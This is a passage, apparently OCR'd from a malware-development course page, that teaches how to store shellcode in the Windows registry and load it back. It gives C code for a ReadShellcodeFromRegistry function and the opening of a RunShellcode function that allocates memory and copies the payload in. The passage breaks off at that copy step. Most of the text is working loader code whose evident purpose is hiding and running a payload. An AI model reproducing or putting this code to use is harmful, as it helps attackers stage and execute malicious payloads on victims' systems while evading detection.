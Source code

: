 
```
STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);

```
### **Reading Registry - Code Snippet**


```
BOOL ReadShellcodeFromRegistry(IN DWORD sPayloadSize, OUT PBYTE* ppPayload) {

    LSTATUS     STATUS            = NULL;
    DWORD       dwBytesRead       = sPayloadSize;
    PVOID       pBytes            = NULL;


    pBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sPayloadSize);
    if (pBytes == NULL){
        printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
        return FALSE;
    }

    STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
    if (ERROR_SUCCESS != STATUS) {
        printf("[!] RegGetValueA Failed With Error : %d\n", STATUS);
        return FALSE;
    }

    if (sPayloadSize != dwBytesRead) {
        printf("[!] Total Bytes Read : %d ; Instead Of Reading : %d\n", dwBytesRead, sPayloadSize);
        return FALSE;
    }

    *ppPayload = pBytes;

    return TRUE;
}


```
### **Executing Payload**

Once the payload is read from the registry and stored inside the allocated buffer, the `RunShellcode` function is used to execute the payload. Note that this function was explained in earlier modules.


```

BOOL RunShellcode(IN PVOID pDecryptedShellcode, IN SIZE_T sDecryptedShellcodeSize) {

    PVOID pShellcodeAddress = NULL;
    DWORD dwOldProtection   = NULL;

    pShellcodeAddress = VirtualAlloc(NULL, sDecryptedShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);

    memcpy(pShellcodeAddress, pDecryptedShellcode, sDecryptedShellcodeSize);
```